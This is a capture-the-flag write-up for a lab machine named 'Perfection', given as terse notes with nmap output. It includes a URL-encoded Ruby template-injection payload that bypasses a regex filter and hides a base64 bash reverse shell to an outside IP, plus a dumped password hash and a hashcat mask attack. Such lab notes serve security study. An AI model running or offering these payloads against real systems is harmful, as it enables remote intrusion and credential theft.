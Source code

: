 ```yaml
---
title: "Perfection"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



#ssti

- Enumeration : 
```sh
nmap -sC -sV-p- $ip
```

- Output :
```sh
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Exploitation form ssti RCE / bypass regex filter : 
```ruby
ABCDE%0A<%25%3d+system("echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDI0MiAwPCYxIDI%2bJjE%3d+|+base64+-d+|+bash+")+%25> #payload
```

`"%0A" to bypass the filter and at the same type encode the payload in base64 to also bypass security .`

Interesting file : 
```sh
susan@perfection:~/Migration$ cat pupilpath_credentials.db
cat pupilpath_credentials.db
^ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fsusan@perfection:~/Migration$ ^C
```

- Cracking the hash : 
```sh
hashcat -m 1400 hash  -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

`The structure of the password was in /var/mail`

